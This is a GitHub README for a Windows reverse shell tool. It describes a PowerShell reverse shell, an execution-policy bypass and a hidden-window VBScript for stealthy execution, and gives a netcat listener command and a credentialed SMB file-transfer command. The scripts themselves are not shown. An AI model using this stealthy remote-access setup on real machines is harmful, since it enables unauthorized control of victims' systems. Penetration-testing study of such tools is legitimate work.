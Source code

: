 # ![Reverse Shell Monitor](assets/reverseshell.jpg)

# Reverse-Shell-Monitor

Reverse-Shell-Monitor is a powerful tool designed to initiate reverse shell connections, scan networks, transfer files, and execute remote commands on Windows machines. Built using a combination of PowerShell, Batchfile, VBScript, Python, and shell scripting, it is ideal for penetration testers, system administrators, and cybersecurity professionals.

## Features

- **Reverse Shell**: Initiates a reverse shell connection from a target machine to a server.
- **Network Scanning**: Scans a network for connected devices.
- **File Transfer**: Uploads files to selected Windows machines.
- **Command Execution**: Allows remote command execution on the target machine.
- **Cross-Platform**: Uses PowerShell, Batchfile, VBScript, and Python for versatile functionality.

---

## Code Overview

### 1. Bare Metal Folder

This folder contains the core reverse shell scripts.

- **reverse-shell.ps1 (PowerShell Script)**: Establishes a reverse shell connection between the target and the server. It receives commands, executes them on the target machine using `cmd.exe`, and sends the output back to the server.

    **Parameters**:
    - `IPAddress`: The IP address of the server (defaults to 192.168.0.105).
    - `Port`: The port for reverse shell connection (defaults to 4444).

- **run_script.bat (Batchfile)**: Automates the execution of the PowerShell script, bypassing execution policy restrictions.

- **run_script.vbs (VBScript)**: Runs the batch file in the background without showing a console window, for stealthy execution.

---

### 2. Reverse Shell Tool Folder

This folder extends the tool’s functionality by adding network scanning and file transfer features.

- **Network Scanning**: Scans a network for connected devices using the `reverse-shell-network-scanner` script.
  
- **File Transfer**: Uploads files to a target Windows machine using the `reverse-shell-file-transfer` script.

    **Dependencies**:
    - `scapy`
    - `pysmb`

    Install the dependencies:
    ```bash
    pip install scapy pysmb
    ```

---

## Installation

### Bare Metal Installation

1. Clone the repository:
    ```bash
    git clone https://github.com/Giddy-K/Reverse-Shell-Monitor.git
    cd Bare_metal
    ```

2. Modify the `reverse-shell.ps1` script:
    ```bash
    Start-ReverseShell -IPAddress 'YOUR_SERVER_IP' -Port YOUR_PORT
    ```

3. Run the VBScript file to start the reverse shell in the background:
    - Double-click the `run_script.vbs` file for stealth execution.

### Reverse Shell Tool Installation

1. Clone the repository:
    ```bash
    git clone https://github.com/yourusername/reverse-shell-tool.git
    cd reverse-shell-tool
    ```

2. Run the installation script:
    ```bash
    sudo ./install.sh
    ```

---

## Usage

### Bare Metal Reverse Shell

1. Start a listener on your server:
    ```bash
    nc -lvp 4444
    ```

2. Once the target machine runs the script, you can begin sending commands to the target.

### Reverse Shell Tool Usage

1. **Network Scanning**:
    ```bash
    python3 /usr/local/bin/reverse-shell-network-scanner
    ```

2. **File Transfer**:
    ```bash
    python3 /usr/local/bin/reverse-shell-file-transfer --ip <target_ip> --username <username> --password <password> --domain <domain>
    ```

---

## Disclaimer

This project is for educational purposes only. Unauthorized use of this tool is prohibited. The authors are not responsible for any misuse or damage caused by this software.

---

## License

This project is licensed under the MIT License.

---

## Contributors

- **Gideon Kipamet** - [GitHub](https://github.com/Giddy-K)

Feel free to contribute and add your socials, GitHub profile, or name here.
